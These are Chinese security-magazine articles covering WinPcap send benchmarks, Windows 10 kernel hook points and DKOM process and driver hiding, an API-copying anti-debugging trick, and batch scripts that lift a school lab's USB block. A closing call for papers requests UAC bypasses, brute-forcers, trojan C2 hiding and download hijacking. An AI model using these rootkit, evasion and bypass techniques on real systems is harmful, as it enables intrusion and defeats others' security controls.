从图 3 可以看出，数据包的确重复发送了 50 次，而且数据包的内容也与图 1 一致，可见示例代码是正确的。

## 发送数据包的性能测试与分析

为了更好地验证上面的发送过程，我们使用 WinPcap 提供的不同发送方式，来测试不同发送方式之间的区别。测试的基本过程是：在发送方连续发送 10 万个长度为 1514 个字节的数据包，同时在发送方监视 CPU 占用率、统计网络流量与每个数据包之间的平均时间间隔。

### 1. 测试一：单次发送数据包的重复调用

可通过对 pcap_sendpacket 函数多次重复调用，来实现多次发送数据包的功能，主要实现代码如下。

```c
for(int i=0;i<sendtimes;i++) // 循环，实现多次重复发送
{
    // 获得生成的数据包，长度为 max_packet_len
    gen_packet(buf,max_packet_len,i);
    // 发送数据包
    if ((ret=pcap_sendpacket(adhandle,buf,max_packet_len))==-1)
    {
        // 发送失败
        ...
        return -1;
    }
}
```

其中函数 gen_packet 的原型如下：

```c
void gen_packet(unsigned char *buf, int len, int order)
```

参数 order 用来设置需要生成数据包的序号。

发送时使用如下命令，从而把长度为 1514 字节的数据包重复发送十万次。

```bash
send.exe 100000
```

接收方的数据包捕获如图 4 所示，所接收的每个数据包之间的平均时间间隔为 202.22us。

图 4 接收方接收的数据包

### 2. 测试二：重复发送单个数据包

通过调用 pcap_set_num_write 函数，实现对同一个数据包重复多次发送的功能，主要实现代码如下。

```c
/* 设置重复发送次数 */
pcap_set_num_write(adhandle,sendtimes);
/* 开始数据包发送 */
int max_packet_len=1514;
unsigned char *buf=(unsigned char *)malloc(max_packet_len);
memset(buf,0x0,max_packet_len);
/* 获得生成的数据包 */
gen_packet(buf,max_packet_len);

if ( (ret=pcap_sendpacket(adhandle,buf, max_packet_len)) ==-1)
{
    // 发送失败
    ...
    return -1;
}
free(buf);
```

其中函数 gen_packet 的原型如下：

```c
void gen_packet(unsigned char *buf,int len)
```

其中，参数 buf 用来存储生成的数据包内容；参数 len 用来设置需要生成数据包的长度。发送时使用如下命令，从而把长度为 1514 个字节的数据包重复发送 10 万次。

```bash
send_n_wpcap.exe 100000
```

接收方的数据包捕获如图 6 所示，所接收的每个数据包的平均时间间隔为 123.27us。

图 6 接收方的数据包统计

从测试数据可以看出，第二种方式（重复发送单个数据包）所占用的发送方 CPU 很少，发送速度快，生成的网络流量很大。不过，该方式的缺点就是无法给数据包本身添加数据包是否掉包的判断依据（如数据包的序号）。

通过上面的完整过程演示，对发送数据包的过程及特点进行了详细的分析，同时也

## 初探 Windows 10 系统内核变化

文/zc

2014 年 9 月 30 日，旧金山——微软公司首次公开了下一代操作系统 Windows 10，并且于 10 月 1 日提供了适用于 PC 的早期技术预览版下载。此次 Windows 10 系统最吸引人的地方在于，它提供了跨平台的支持，从 Xbox 到 PC、手机、平板和其他电子设备。另外，微软还将打通现有的应用商店，开发者只要写一个应用，就能轻松地将其部署到不同类型的设备上，这对于当前 Windows Phone 匮乏的生态系统将极有益处。

Windows 10 技术预览版发布后，我第一时间将系统从 Windows 8.1 升级到了 Windows 10。在这里，我不想去评论新的开始菜单及其他使用体验，这种评测文章俯拾皆是，基于我们内核研究者与《黑防》杂志的定位，我更想评测一下新系统的内核变化，展望一下安全软件与 Rootkit 怎样在新战场上“开疆拓土”。

安装完成后（保留设置与安装软件的升级），给我的第一印象不是开始菜单，而是原系统中运行正常的 360 安全卫士和无线网卡皆不能正常运行了，这说明内核的变化导致了驱动不能在新系统中正常运行，所以我们还是很有必要去探索一下。

首先说一下调试方法。我的习惯是在 Windows XP 虚拟机中使用 Windbg 进行本地调试；在 Windows 7/8 虚拟机中使用 VirtualKD+Windbg 进行双机调试。对于崭新的 Windows 10 系统，我选择了最稳妥的方式，即在虚拟机中添加一个串口进行调试，不懂的朋友请自行上网搜索。值得一提的是，需要注意虚拟机默认的打印机已经占用了一个串口，我的方法是先删除这个打印机再添加串口。本文所有的调试信息均来自 Windows 10 系统，为节约版面，只刊登出部分调试信息，我随文附送了一个文本文档，里面包含完整的调试信息。我们将调试结果与 Windows 7 系统相比较，因为大多数用户将从 Windows 7 升至 Windows 10。

### 切入内核指令 INT 0x2E/SYSENTER 及内核入口点 KiFastCallEntry

对于从前的 Windows 系统，使用中断描述符表（IDT）中的 0x2E 项切入内核：

```text
kd> !idt -a
......
2e: 81b72dbe nt!KiSystemService
kd> u 81b72dbe l30
nt!KiSystemService:
......
81b72e48 e9f5000000        jmp        nt!KiFastCallEntry+0xa2 (81b72f42)
```

可以看到，0x2E 项对应的是 KiSystemService 例程，反汇编 KiSystemService 发现，它跳转到了入口点 KiFastCallEntry。大约自从 Windows 2000 系统以后，就开始使用 SYSENTER 指令了，但是包括 Windows 10 系统在内，均保留了 0x2E 项。现代 Windows 系统的 IDT 更多地参与了与硬件相关的事务。

关于 SYSENTER 相关原理，我们曾经多次使用，从而找到 KiFastCallEntry 的地址。通过 RDMSR 与 WRMSR 指令可以对 IA32_SYSENTER_CS、IA32_SYSENTER_ESP、IA32_SYSENTER_EIP 三个 MSR 寄存器进行操作，如果使用 RDMSR 命令读取 IA32_SYSENTER_EIP（0x176）的内容，即可找到 KiFastCallEntry 地址。

```text
kd> rdmsr 176
msr[176] = 00000000`81b72ea0
kd> u 81b72ea0
nt!KiFastCallEntry:
......
```

调试结果证明，INT 0x2E/SYSENTER 部分没有发生什么变化，它们均可到达 KiFastCallEntry。而 KiFastCallEntry 一直是我们研究的重点内容，因为 360 等国内安全软件最重要的挂钩都位于 KiFastCallEntry 的某处偏移当中。这里我们查看一下重点挂钩区域的变化：

```text
kd> u KiFastCallEntry+0xe6 l20
nt!KiSystemServiceAccessTeb+0x1a:
81b72f86 ff05b0060000      inc     dword ptr ds:[6B0h]
81b72f8c 8bf2              mov     esi,edx
81b72f8e 33c9              xor     ecx,ecx
81b72f90 8b570c            mov     edx,dword ptr [edi+0Ch]
81b72f93 8b3f              mov     edi,dword ptr [edi]
81b72f95 8a0c10            mov     cl,byte ptr [eax+edx]
81b72f98 8b1487            mov     edx,dword ptr [edi+eax*4]
81b72f9b 2be1              sub     esp,ecx //360 挂钩点
81b72f9d c1e902            shr     ecx,2   //360 挂钩点
81b72fa0 8bfc              mov     edi,esp //腾讯挂钩点
81b72fa2 f6457202          test    byte ptr [ebp+72h],2
81b72fa6 7506              jne     nt!KiSystemServiceAccessTeb+0x42 (81b72fae)
81b72fa8 f6456c01          test    byte ptr [ebp+6Ch],1
81b72fac 740c              je      nt!KiSystemServiceCopyArguments (81b72fba)
81b72fae 3b35045dca81      cmp     esi,dword ptr [nt!MmUserProbeAddress (81ca5d04)]
//腾讯挂钩点
81b72fb4 0f832a020000      jae     nt!KiSystemCallExit+0x77 (81b731e4)
```

这样，360 挂钩没有成功的原因一目了然了，语句没有变，但是偏移变了，导致挂钩没有成功；至于腾讯电脑管家的挂钩，就要发生变化了，因为这两句中间已经插入了若干句。可见，360 的挂钩可移植性更好一些，我们可以关注一下这些安全软件的挂钩将来如何变化。

### SSDT 与 Shadow SSDT（SSSDT）

SSDT 与 SSSDT 是安全软件与 Rootkit 的“兵家必争之地”，也是我们的重点关注对象。

```text
kd> dds KeServiceDescriptorTable
8105fc80    80f1fcec nt!KiServiceTable
8105fc84    00000000
8105fc88    000001b1
8105fc8c    80f203b4 nt!KiArgumentTable
kd> dps KiServiceTable l1b1
80f1fcec    80e76800 nt!NtAccessCheck
......
```

相较于 Windows 7 系统的 SSDT 函数数量 0x191 来说，多出了 0x20（32）个。要想调试 SSSDT，有两点要注意的地方：第一，不可刚一开机就调试，要等待 win32k 模块初始化完成之后才可以；第二，要切换到 GUI 进程之后才能调试出详细的 SSSDT 函数。

```text
kd> dds KeServiceDescriptorTableShadow
8105fc40    80f1fcec nt!KiServiceTable
8105fc44    00000000
8105fc48    000001b1
8105fc4c    80f203b4 nt!KiArgumentTable
8105fc50    8e177000 win32k!W32pServiceTable
8105fc54    00000000
8105fc58    00000441
8105fc5c    8e178554 win32k!W32pArgumentTable
```

其中，W32pServiceTable 之中保存了 0x441 个 SSSDT 函数，相较于 Windows 7 系统的 SSSDT 函数数量 0x339 来说，多出了 0x108（264）个。接着我们查看所有进程，切换到一个 GUI 进程，这里以 explorer.exe 为例。

```text
kd> !process 0 0 //查看进程
......
PROCESS afa946c0    SessionId: 1    Cid: 0e88    Peb: 7f474000    ParentCid: 0e1c
      DirBase: 3fff2460    ObjectTable: a2752480    HandleCount: <Data Not Accessible>
      Image: explorer.exe
kd> .process afa946c0 //切换进程，注意上面的 PROCESS afa946c0
Implicit process is now afa946c0
kd> dps W32pServiceTable l441
8e177000    8e1717d4 win32k!NtUserGetOwnerTransformedMonitorRect
......
```

综合上述信息，我们可以看到，本次 Windows 10 系统对 SSDT 的修改相对较小，最明显的地方是大幅增加了 SSSDT 的函数数量（当然有些是从 Windows 8 继承而来的），相信 win32k 的其他地方也做出了一定的修改，这就解释了系统在图形界面方面变化比较大的原因。我并没有列出所有新增的函数，因为它们不会全部与 Rootkit 相关，至于哪些应该去 Hook，有待时间检验。

### 其他重要内核数据结构

除了更改调用表（如 Hook SSDT）、更改代码（如 Inline Hook KiFastCallEntry）等常见手段之外，另一种 Rootkit 常用技术当属 DKOM 了，想使用 DKOM 就必须清楚地认识一些内核中的重要数据结构。

### 1. 隐藏进程

这种隐藏进程的方法是：调用 PsGetCurrentProcess 得到 EPROCESS 对象的指针，遍历 ActiveProcessLinks 双向链表，当找到目标 PID 时，就把这个进程从链表中脱去，达到隐藏进程的目的。特别注意，PID 是唯一的，而同一时间可以有多个进程名相同的进程在运行，所以要根据 PID 来判别。

```text
kd> dt nt!_EPROCESS
    +0x000 Pcb                  : _KPROCESS
    ......
    +0x0b4 UniqueProcessId      : Ptr32 Void //进程 ID
    +0x0b8 ActiveProcessLinks   : _LIST_ENTRY //进程的双向链表
    ......
    +0x170 ImageFileName        : [15] UChar //进程名，Windows 7 中偏移为 0x16C
```

### 2. 隐藏驱动程序文件

原理基本与隐藏进程相同，请看如下调试：

```text
kd> dt nt!_DRIVER_OBJECT
.....
    +0x014 DriverSection        : Ptr32 Void //无类型指针
    ......
```

众所周知，微软对于内核中的关键部分总是采取模糊、混淆的态度，不欲让外人所知。我们调试出的 DriverSection 结构看起来是一个无类型指针，但是在众多孜孜不倦的内核黑客的探索下，揭示出了其结构中确实含有双向链表，甚至知道了在其偏移 0x2C 处包含了驱动的名称。因此，我们可以如法炮制，遍历 DriverSection 双向链表，匹配想要隐藏的驱动名字，从链表中将其脱去，也就达到了隐藏驱动程序的目的。本部分在 Windows 10 系统中的变化不大。

### 结语

Windows 10 系统寄托了微软对于移动互联网时代的期望，我真心期待 Windows 10 系统取得巨大的成功，甚至是颠覆现有的格局。“创新之道，不破不立”，微软的创新精神深深地激励着我。

通过我们这次的初步探索可知，Windows 10 系统变化最大的部分当属 win32k 模块，直接决定了我们所见的 GUI 部分出现了较大的变化。其他关键部分有些没变，有些进行了较小的优化调整。需要指出的是，现在的 Windows 10 系统仅仅是一个早期预览版本，不排除今后还会有一些变化，甚至是较大的变化。随着时间推移，系统会逐渐成熟，安全软件与 Rootkit 的博弈将发生怎样的变化，让我们拭目以待。

（完）

## 马甲 API 的实现原理及对抗

文/图 木羊

看到这个标题，想必大家第一个问题多半是什么叫马甲 API，第二个问题是为什么叫马甲 API？在回答之前，先请思考一个问题，刚上手调试一款软件，最重要的是什么？答案恐怕五花八门，我给大家拎一拎，根据目前的调试技术，回答基本只能从动态和静态两大方向入手，而动态肯定比静态好用太多，举个简单例子，做过代码审计的同学，都一定有过那种看到茫茫多陌生的代码时脑子瞬间“嗡”地要断线的经历，这还是面对着高级程序语言，而且很可能还是手边能找到文档注释的情况，要是换了什么参考也没有，而且语法结构最反人类的反汇编代码，这种痛苦只是翻倍。动态调试为什么好？因为只要咬住执行流，就可以避免陷入无关紧要数量又特别巨大的旁枝代码中，省时省事。

但这是理想情况。要咬住执行流，绝对是一项需要智力和运气的技术活，具体体现就是下断点。抛开各种不断突破下限的反调试手段不说，就算 OD 载入能 F9 跑起来，不知道怎么断下执行流也是没法开工干活的。下断点很重要。回忆一下，现在市面的教程教材都是怎么教下断点的，断关键 API 对不对？这篇马甲 API，就是用来对抗这种说教。

说得太虚不好理解，从一个具体的例子入手，譬如说某个 CrackMe，输入用户名和注册码，点击“注册”以后，会弹出错误警告框。这时我们要怎么做？最教科书的做法是，因为有弹框，所以断 MessageBox，这里还要注意，Windows 编程里有 MessageBox 这个函数，但没有这个 API，这个函数经过编译器编译后，根据编码的不同，可能最终调用的是 MessageBoxA 或者 MessageBoxW，不管哪个，下断的位置都有两个，一个是程序调用 API 的位置，通常是 Call 该 API 在 IAT 中的对应位置（是个 DWORD），一个是 API 的入口位置。效果是一样的，但如果使用 OD，断前者可以看到参数，所以这是首选，一般用 Ctrl+N 能找到，不过有可能会漏，断在 API 入口则会相对保险一点。

首先必须承认，这种断核心 API 的方法确实是咬住执行流的好方法，直接的后果是现在很多 CrackMe 都不敢弹框的，不过是不是就没法对抗呢？恰恰相反，对抗的方法很简单，譬如本文所用的马甲 API。这里先揭开第一个谜底：这个名词是我“杜撰”的，只是用来描述一种技术，利用这种技术，我们不再直接调用核心 API，而改为调用它的“替身”，目的就是使断核心 API 的方法无法咬住执行流。实现这种技术，只需要三步。

第一步，找到目标 API，也即需要制作“替身”的核心 API。以上文为例，就确定是 MessageBoxA 吧，获取的方法有很多种，最大路货的方法如下：```c
DWORD addrofAPI = (DWORD)GetProcAddress(LoadLibrary("user32.dll"), "MessageBoxA");
```

用 GetProcAddress 可以获取系统 DLL 导出 API 的地址，需要注意的是第一个参数，是 HMODULE 类型，需要传入 API 所在 DLL 的句柄，获取的方法有两种，一种是 GetModuleHandle，一种是 LoadLibrary。如果是控制台程序就只能用后者，因为只有窗口程序才会载入 user32.dll，控制台程序需要手动载入这个 DLL。除了这种方法以外，还有个更简单的方法：

```c
DWORD addrofAPI = (DWORD)MessageBox;
```

这种方法不常见，但是确实可用。C 语言中函数名称就是该函数的地址，只要通过强制转换就可以直接赋值使用。唯一的限制是必须为通过库文件导出的函数，对于微软私有的 API 就不能用了。

第二步，制作“替身”。名字听起来很逆天，其实原理很简单：复制。多谢冯·诺依曼挖下的坑，API 里的执行指令其实也是最普通的数据，只要在内存中另寻一处，将 API 中的指令（数据）统统复制过去，“替身”就制作完成了，而且只要能将执行流导过去，功能和原来的 API 将一模一样。也有人将类似的技术称为制作镜像，或者影子（shadow）。

不过制作“替身”的方法，却需要巧思，这是决定成败的关键。如果别人三下两下就顺藤摸瓜找到“替身”，那马甲 API 的西洋镜也就被戳破了。首当其冲的就是怎么复制，直接用 memcpy 绝对是自寻死路，不能让别人轻易找到你的复制现场，用 rep mov 之类的指令吧，只要动动脑筋，想玩出点花样来不难。这里只提两个注意的地方，第一个是复制到哪里去，找个 Alloc 系的 API（如 VirtualAlloc）分配内存再复制过去行不行？行，常见的镜像就是这么做的，但容易被抓住马脚。这里讲一个具有自主知识产权的方法，顺便揭开第二个谜底，为什么叫“马甲”。先说说马甲，马甲俗称“小号”，首先它也是个 ID，如果我们另外申请一片内存，虽然馅一样了，但皮总是有点差（特别是用 OD 来看，调用地址就不一样）。

所以，要货真价实，马甲 API 首先也应该是个 API。转变一下观念，所谓 API 也不过是在特定的内存中放了一些特定的数据（指令）罢了，和新申请一片内存没什么两样。不过话虽如此，但马甲 API 不是随便找个 API 就可以了。为了程序稳定，首先得保证这个 API 不会被其它地方调用，也就是说它必须是个闲置的 API。道理简单，你把人家的馅换了，但皮还是原来的，万一被别处调用了，作用肯定会发生改变，最坏的结果就是程序崩溃了，要是还因此毁掉重要的数据就更糟糕。此外，这个 API 也不是随便就行，对传参还有要求，这里选的是 VirtualProtect，原因放在第三步仔细讲。最后还有一点，API 所在的内存空间通常是不可写的，直接复制会导致失败，需要先重设一下属性。

第三步，调用。你说调用很简单？不，大有文章。前面说了，这里被选作 MessageBoxA 的马甲 API 的是 VirtualProtect，为什么选它？首先它们的参数必须一致，我们将会这样调用这个马甲 API：

```c
VirtualProtect(0, (DWORD)"tst", (DWORD)"HF", 0);
```

这里演示了如何传参，如果参数数目不一致，编译器是不依的。至于其它，还有类型不同的问题，这个让不少人颇为棘手，如果不指点可能又得是多少百次徒劳无功的搜索，其实强制类型转换就可以了。

其次就是它的空间够“大”。前面肯定有同学要问复制的内存块大小，其实不需要太纠结，只要保证需要的都复制过去就可以了。总的来说复制多了比复制少了好，不需要太精确，只要保证复制的目的内存从起到止都不会有其它的执行流经过就可以了。

最后看看编译之后的效果，尽量让编译器不要优化，最佳的观赏体验如图 1 所示。


图 1

是不是顿时明白为什么敢叫马甲 API 而不叫其它？VirtualProtect 一转眼成了 MessageBoxA 的马甲，迷惑效果非常好（还附赠 OD 品牌认证的全套参数识别，简直跟真的一样），特别是对那些死搬教科书的新手，一来无论如何也找不到弹框的调用，二来无论如何也想不到要通过断 VirtualProtect 来实现断 MessageBoxA 的效果。这种方法不但能对抗动态调试的断核心 API，对抗静态反汇编效果也很好，不说多了，最后放上 IDA 最新版的反汇编效果，如图 2 所示，不看广告看疗效！

```asm
push    ecx                 ; lpflOldProtect
push    40h                 ; flNewProtect
push    50h                 ; dwSize
mov     edx, [ebp+lpAddress]
push    edx                 ; lpAddress
call    ds:VirtualProtect
```

图 2

## 禁用 USB 软件的破解分析

文/图 BadTudou

在学校机房上机时，发现 USB 设备被禁用了。插入 USB 设备后，电脑仍然会有相应的提示，但是找不到相应的驱动程序，因而可以判断，机房管理员并没有在 BIOS 中禁用 USB 设备，而应该是使用了相应的软件来禁用 USB 设备了。也就是说，只要我们找到了这个软件，就有可能将禁用 USB 的限制解除。于是，探寻解除之道的旅程由此开始。

在本地电脑以“USB”为关键字搜索，发现了一个叫“禁用 USB”的软件，打开该可执行文件的“属性”，其中出现了“XXXXX 学校”的字样，猜测可能是机房管理员自己写的一个小软件。运行该软件，界面如图 1 所示。


图 1

看到的第一眼，想到了批处理，尝试按了 Ctrl+C 使它暂停，软件果然暂停了。这时，在本地文件搜索中发现了一个文件——禁用 USB.bat，在系统临时文件里，应该是禁用 USB.exe 在运行过程中产生的。用记事本打开，果真如此。

软件可能是学校机房管理员自己编写的，使用的是批处理，并通过加密软件加密成 EXE 可执行文件。下面是源码分析，“//”部分是我添加的注释信息。

```bat
//关闭回显
echo off
//备份原 USB 驱动至 WINDOWS 文件夹，文件后缀为 Bak
copy %WINDIR%\inf\usbstor.inf %WINDIR%\usbstorinf.bak /y
copy %WINDIR%\inf\usbstor.PNF %WINDIR%\usbstorPNF.bak /y
//删除原 USB 驱动
del /q /f %WINDIR%\inf\usbstor.inf
del /q /f %WINDIR%\inf\usbstor.PNF
//建立 USB 驱动文件 PNF
md %WINDIR%\inf\usbstor.PNF
//建立带斜杠文件夹，利用畸形文件夹阻止驱动文件复制到该文件夹
md %WINDIR%\inf\usbstor.PNF\1..\
//更改 USB 驱动文件 PNF 的属性
attrib +a +s +h +r %WINDIR%\inf\usbstor.PNF /s /d
//建立 USB 驱动文件 inf
md %WINDIR%\inf\usbstor.inf
//建立带斜杠文件夹，利用畸形文件夹阻止驱动文件复制到该文件夹
md %WINDIR%\inf\usbstor.inf\l1..\
//更改 USB 驱动文件 inf 的属性
attrib +a +s +h +r %WINDIR%\inf\usbstor.inf /s /d
//更改文件修改权限
echo y|cacls %WINDIR%\inf\usbstor.PNF /c /t /P everyone:n
echo y|cacls %WINDIR%\inf\usbstor.inf /c /t /P everyone:n
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR" /v Start /t reg_dword /d 4 /f
//注册表信息写入 c:\windows\jy.ini，该配置文件的内容为:
echo HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR [2 19] >> c:\windows\jy.ini
//注册配置文件
regini c:\windows\jy.ini
```

明白了软件的运行原理，破解的思路也就有了。其实很简单，只需要执行与上面的程序相反的操作就可以了。（如果只需要看重要的部分，可略过本部分，参阅下面的精简版本）。

启用 USB 的源码如下：

```bat
@echo off
echo    *                          *
echo    *                          *
echo    *                          *
**********************************************************************
echo    *                          *
echo    *  本程序用于启用 USB 设备，针对【XXXXXXXXXXXXXXXX】机房有效，  *
echo    *  软件测试成功，其他地域请自测。任何 Bug 或建议，提交至作者邮箱。 *
echo   *
echo   ***************************************************************
echo   *                                    *
echo   *                                    *
echo
echo   Name    : 启用 USB 小工具
echo   By      : BadTudou
echo   Email   : BadTudou@xxxx.com
echo   Date    : 2013-04-23
echo   Waring  : 因使用本程序而带来的任何法律责任由使用者自行承担！
Pause
echo _________________________________________________
echo 正在更改目标文件文件属性
echo _________________________________________________
pause
attrib -a -s -h -r %WINDIR%\inf\usbstor.inf /s /d
attrib -a -s -h -r %WINDIR%\inf\usbstor.PNF /s /d
echo 正在尝试清除驱动文件保护机制
pause
rd %WINDIR%\inf\usbstor.PNF\1..\
rd %WINDIR%\inf\usbstor.PNF\
rd %WINDIR%\inf\usbstor.inf\1..\
rd %WINDIR%\inf\usbstor.inf\
echo 正在写入驱动文件
pause
del /q /f %WINDIR%\inf\usbstor.inf
del /q /f %WINDIR%\inf\usbstor.PNF
copy %WINDIR%\usbstorinf.bak %WINDIR%\inf\usbstor.inf /y
COPY %WINDIR%\usbstorPNF.bak %WINDIR%\inf\usbstor.PNF /y
echo 尝试将启用信息写入注册表,如果本步骤失败，使用管理员权限手工修改如下注册表键值：
echo 注册表项: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR
echo 键名    : Start
echo 键值    : 3
pause
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR" /v Start /t reg_dword /d 3 /f
pause
echo Done!
Pause
```

启动 USB 精简版源码：

```bat
@echo off
//更改目标文件文件属性
attrib -a -s -h -r %WINDIR%\inf\usbstor.inf /s /d
attrib -a -s -h -r %WINDIR%\inf\usbstor.PNF /s /d
//尝试清除驱动文件保护机制
rd %WINDIR%\inf\usbstor.PNF\1..\
rd %WINDIR%\inf\usbstor.PNF\
rd %WINDIR%\inf\usbstor.inf\l1..\
rd %WINDIR%\inf\usbstor.inf\
//删除原无效的 USB 驱动配置文件
del /q /f %WINDIR%\inf\usbstor.inf
del /q /f %WINDIR%\inf\usbstor.PNF
//复制原来有效的 USB 驱动配置文件至驱动文件夹
copy %WINDIR%\usbstorinf.bak %WINDIR%\inf\usbstor.inf /y
copy %WINDIR%\usbstorPNF.bak %WINDIR%\inf\usbstor.PNF /y
//尝试将启用信息写入注册表
//注册表项：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR
//键名    ：Start
//键值    ：3
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR" /v Start /t reg_dword /d 3 /f
```

运行自己写的“启用 USB.bat”，最后将启用 USB 的信息写入注册表时出现错误，原因是未能取得管理员权限。使用 Win+R 快捷键打开“运行”窗口，输入“regedit”打开注册表编辑器，找到出现在代码中相应的注册表项和键名，勾选相应的权限，输入键值：3，如图 1 所示。此时再插入 USB 设备，电脑正确识别了。


图 1

软件分析重点：能够破解该软件，主要是我们获取了它的源码，否则将很难破解。注意看以下源代码：

```bat
//建立带斜杠文件夹，利用畸形文件夹阻止驱动文件复制到该文件夹
md %WINDIR%\inf\usbstor.PNF\1..\
//建立带斜杠文件夹，利用畸形文件夹阻止驱动文件复制到该文件夹
md %WINDIR%\inf\usbstor.inf\l1..\
```

再看看我们是如何破解它的。

```bat
rd %WINDIR%\inf\usbstor.PNF\1..\
rd %WINDIR%\inf\usbstor.inf\l1..\
```

重点是畸形文件。我们需要将 usbstor.inf 复制至系统盘的 Windows\inf 文件夹下，如果我们直接用它覆盖原文件，会失败，因为目录已经存在文件 usbstor.inf。准确地说，是存在 usbstor.inf 这个文件夹。当我们把 usbstor.inf 复制到目标文件夹时，系统判定目标文件夹下是否存在同名文件，在处理过程中，文件夹 usbstor.inf 被当作了文件（文件名：usbstor，扩展名：.inf）。注意“禁用 USB”中的这段代码：

```bat
md %WINDIR%\inf\usbstor.inf\l1..\
```

此处建立了一个带“.”的畸形文件夹，下面的讲解若不是很清楚，读者可以百度“畸形文件”。系统尝试删除目标文件夹下的 usbstor.inf 文件时（实际上是一个文件夹），会删除该文件夹下的所有文件夹及文件，但是由于畸形文件 l1. 的存在，\inf\usbstor.inf\l1.. 最后的一个“.”被解析成了文件夹，而该文件是 l1.，系统会提示因找不到文件而无法删除，因而目标文件夹是不会被删除的。

如果软件的作者将“md %WINDIR%\inf\usbstor.inf\l1..\”改为“md %WINDIR%\inf\usbstor.inf\xx..\”，其中 xx 为任意字母或数字，或者建立多级文件夹，然后在这些文件夹下随机建立畸形文件，那么启用 USB 就变得更难了。

（完）

### 2014 年第 11 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 11 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

## 3. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

## 4. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

## 5. 暴力破解 3389 远程桌面密码

- 要求：
  - 针对 Windows 3389 远程桌面实现暴力破解密码；
  - 读取指定的用户名和密码字典文件；
  - 采用多线程；
  - 所有函数都必须判断错误值；
  - 使用 VC++2008 编译工具实现，控制台程序；
  - 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
  - 支持 Windows XP/2003/7/2008。

## 6. WEB 服务器批量扫描破解

- 针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255
- 针对目标 Web 服务器扫描要求
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具


具体参考如下：

- Tomcat
- WebLogic
- JBoss
- Apache
- JOnAS
- WebSphere
- Lotus Server
- IIS（WebDAV）
- Axis2
- ColdFusion
- Monkey HTTPD
- Nginx

- 3）针对目标 Web 服务器后台扫描  
  - 针对目标进行后台地址搜索。
- 4）针对目标 Web 后台密码破解  
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

## 7. 木马控制端 IP 地址隐藏

要求：

- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。  
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 8. Web 后台弱口令暴力破解

说明：

针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；  
- 2）根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录参数，这里的自动指的是根据默认字典；  
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；  
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名；用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账号密码；  
- 5）拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。

## 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；  
- 2）扫描方式采用多线程，并能设置线程数；  
- 3）将功能编写成 DLL，导出功能函数；  
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；  
- 5）尽量多做出错异常处理，以防程序意外崩溃；  
- 6）使用 VC++2008 编译工具编写；  
- 7）支持系统 Windows XP/2003/2008/7。

## 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；  
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；  
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；  
- 2）系统补丁打到最新；  
- 3）支持 32 位和 64 位系统。

### 2014 年征稿启事

